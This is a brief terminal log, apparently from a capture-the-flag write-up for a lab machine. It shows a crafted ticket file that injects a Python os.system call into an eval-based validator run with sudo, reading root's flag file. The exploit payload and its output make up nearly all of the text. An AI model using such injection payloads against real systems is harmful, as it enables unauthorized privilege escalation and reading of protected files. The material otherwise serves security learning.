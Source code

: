 ```bash
development@bountyhunter:~$ cat exploit.md
# Skytrain Inc
## Ticket to exploit
__Ticket Code:__
** 102 + 310 == 412 and __import__('os').system('sudo cat /root/root.txt') == False
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
exploit.md
Destination: exploit
<Redacted system flag>
Invalid ticket.
```